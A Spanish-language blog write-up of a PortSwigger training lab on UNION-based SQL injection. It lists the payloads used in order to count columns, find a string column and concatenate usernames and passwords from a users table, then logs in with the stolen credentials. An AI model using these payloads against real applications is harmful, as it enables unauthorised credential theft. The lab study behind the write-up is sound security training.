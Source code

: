 ```yaml
---
title: PortSwigger - SQL injection UNION attack, retrieving multiple values in a single column.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection UNION attack, retrieving multiple values in a single column. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Gifts** o en cualquier filtro de búsqueda.

![](/assets/images/images-portswigger-sqli/lab6-1.png)

Veremos que se agrega una cadena que es vulnerable a SQL injection.

![](/assets/images/images-portswigger-sqli/lab6-2.png)

Empezamos enumerando la cantidad de columnas.

```sql
' UNION SELECT null -- -
```

![](/assets/images/images-portswigger-sqli/lab6-3.png)

Escribimos dos `null` y comprobamos que existen 2 columnas.

```sql
' UNION SELECT null,null -- -
```

![](/assets/images/images-portswigger-sqli/lab6-4.png)

Ahora verificamo si ambas columnas aceptan un string y nos damos cuenta que la primera columna no acepta un string.

```sql
' UNION SELECT 'a',null -- -
```

![](/assets/images/images-portswigger-sqli/lab6-5.png)

Probamos con el segundo null y comprobamos que sí acepta strings.

```sql
' UNION SELECT null,'a' -- -
```

![](/assets/images/images-portswigger-sqli/lab6-6.png)

Podemos enumerar uno a uno las columnas para obtener los nombres de usuario y contraseñas.

```sql
' UNION SELECT null,username from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-7.png)

```sql
' UNION SELECT null,password from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-8.png)

Pero la idea del laboratorio es practicar una forma de obtener las dol columnas en una sola query. Para eso podemos usar el símbolo `||` que sirve para unir dos columnas en  SQL.

```sql
' UNION SELECT null,password||username from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-9.png)

Podemos separar de mejor forma las dos columnas agregando un símbolo entre las dos columnas. Separaremos ambas columnas con: `||':'||`.

```sql
' UNION SELECT null,password||':'||username from users -- -
```

![](/assets/images/images-portswigger-sqli/lab6-10.png)

Con esta información vamos a **My account**.

![](/assets/images/images-portswigger-sqli/lab6-11.png)

Iniciamos sesión con las credenciales que obtuvimos anteriormente.

![](/assets/images/images-portswigger-sqli/lab6-12.png)

Y resolvemos el lab.

![](/assets/images/images-portswigger-sqli/lab6-13.png)





